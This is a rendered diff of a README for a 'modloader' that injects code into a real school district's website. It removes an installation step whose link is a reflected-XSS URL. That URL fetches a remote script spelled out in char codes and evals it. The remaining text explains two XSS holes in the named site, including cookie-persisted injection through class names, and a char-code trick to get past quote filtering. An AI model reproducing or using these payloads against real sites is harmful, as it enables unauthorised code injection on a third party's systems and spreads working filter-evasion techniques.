

Before and after one commit to rhsml/RHS-Modloader, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -31,19 +31,6 @@ The Modloader itself will automatically update, but the electron app might need
 
 # [MOD MAKING GUIDE](https://github.com/PoyOzk/RHS-Modloader/wiki)
 
-## OLD INSTALLATION METHOD
-
-~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
-USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY
-
-1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".
-
-2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL.
-
-*Month and day must be two digit, so for example use "03" instead of "3"*
-
-3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.
-
 ## How this works
 
 I have found two ways to add HTML onto the RHS website:
@@ -54,6 +41,6 @@ I have found two ways to add HTML onto the RHS website:
 These are both forms of XSS as they allow self script injection.
 
 The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
-and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.
+and the main website allows it through the custom class names, which isn't handled properly. This is also stored as cookies instead of in the URL, where your schedule is also stored. This means custom code loads every time the website does.
 
 While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
```
